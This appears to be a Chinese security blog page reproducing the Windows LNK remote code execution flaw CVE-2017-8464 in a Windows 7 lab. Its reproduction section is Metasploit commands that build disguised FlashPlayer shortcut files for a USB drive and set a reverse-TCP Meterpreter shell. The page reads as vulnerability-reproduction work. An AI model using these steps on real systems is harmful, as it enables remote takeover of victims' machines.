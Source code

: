 ```yaml
---
title: 0day安全 | External Stuxnet CVE-2017-8464
category: 0day
---
```


# {{ page.title }}

## 启程

> 沉默地喊叫沉默地喊叫 孤单开始发酵 不停对着我嘲笑  
> 回忆逐渐延烧 曾经纯真的画面 残忍地温柔出现  
> 脆弱时间到 我们一起来祷告

## 0 相关信息

```bash
# CVE-2017-8464/MS17-013
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8464

# Windows Shell in Microsoft Windows Server 2008 SP2 and R2 SP1, Windows 7 SP1, 
# Windows 8, Windows 8.1, Windows Server 2012 Gold and R2, Windows RT 8.1, 
# Windows 10 Gold, 1511, 1607, 1703, and Windows Server 2016 
# allows local users or remote attackers to execute arbitrary code via a crafted .LNK file, 
# which is not properly handled during icon display in Windows Explorer or 
# any other application that parses the icon of the shortcut. 
# aka "LNK Remote Code Execution Vulnerability."
```

## 1 漏洞复现

```bash
# 环境
> systeminfo
OS 名称:          Microsoft Windows 7 旗舰版 
OS 版本:          6.1.7601 Service Pack 1 Build 7601
系统类型:         X86-based PC
```

本次我们使用Metasploit进行漏洞测试。

```
msf > use exploit/windows/fileformat/cve_2017_8464_lnk_rce
msf exploit(windows/fileformat/cve_2017_8464_lnk_rce) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(windows/fileformat/cve_2017_8464_lnk_rce) > set LHOST 172.16.56.1
LHOST => 172.16.56.1
msf exploit(windows/fileformat/cve_2017_8464_lnk_rce) > exploit

[*] /Users/rambo/.msf4/local/FlashPlayerCPLApp.cpl created, copy it to the root folder of the target USB drive
[*] /Users/rambo/.msf4/local/FlashPlayer_D.lnk created, copy to the target USB drive
[*] /Users/rambo/.msf4/local/FlashPlayer_E.lnk created, copy to the target USB drive
...
[*] /Users/rambo/.msf4/local/FlashPlayer_Z.lnk created, copy to the target USB drive
```
